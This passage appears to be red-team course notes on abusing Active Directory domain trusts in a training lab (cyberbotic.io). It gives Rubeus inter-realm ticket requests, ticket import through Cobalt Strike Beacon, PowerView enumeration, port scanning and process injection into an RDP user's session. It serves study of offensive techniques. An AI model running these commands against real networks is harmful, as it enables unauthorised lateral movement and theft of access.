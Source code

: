###### <font style="color:#00b3ff">Next, request a referral ticket from the current domain, for the target domain</font> 
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgs /service:krbtgt/subsidiary.external /domain:dev.cyberbotic.io /dc:dc-2.dev.cyberbotic.io /ticket:doIFdD[...snip...]MuSU8= /nowrap
```

###### <font style="color:#00b3ff">Finally, use this inter-realm TGT to request a TGS in the target domain</font> 
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgs /service:cifs/ad.subsidiary.external /domain:ad.subsidiary.external /dc:ad.subsidiary.external /ticket:doIFMT[...snip...]5BTA== /nowrap
```

###### <font style="color:#00b3ff">Write this base64 encoded ticket to a file on your machine</font> 
```
PS C:\> [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\subsidiary.kirbi", [System.Convert]::FromBase64String("doIFiD [...snip...] 5hbA=="))
```

###### <font style="color:#00b3ff">Create a sacrificial logon session and import the ticket</font> 
```
beacon> make_token DEV\jadams FakePass
beacon> kerberos_ticket_use C:\Users\abc\Desktop\subsidiary.kirbi
beacon> ls \\ad.subsidiary.external\c$
beacon> rev2self
```

#### One-Way (Outbound)

```
- The strategy is to find principals in cyberbotic.io that are not native to that domain, but are from mydomain.local (outbound trust):
	beacon> powershell Get-DomainForeignGroupMember -Domain cyberbotic.io

- Find machines where the target group has RDP access (two commands work):
	beacon> powershell Get-DomainGPOUserLocalGroupMapping -Identity "Jump Users" -LocalGroup "Remote Desktop Users" | select -expand ComputerName

	beacon> powershell Find-DomainLocalGroupMember -GroupName "Remote Desktop Users" | select -expand ComputerName


- Move laterally to the machine and check network connection:
	beacon> shell netstat -anop tcp | findstr 3389


- Portscan the target domain (that cannot be enumerated):
	beacon> portscan 10.10.18.0/24 139,445,3389,5985 none 1024


- Inject a Beacon into one of jean.wise's processes (user connected in RDP):
	beacon> inject 4960 x64 tcp-local


- If we import a tool, like PowerView and do Get-Domain, we get a result that is actually returned from the mydomain.local domain:
	beacon> powershell Get-Domain


- We didn't see port 445 open, so we can't do anything over file shares, but 5985 is:
```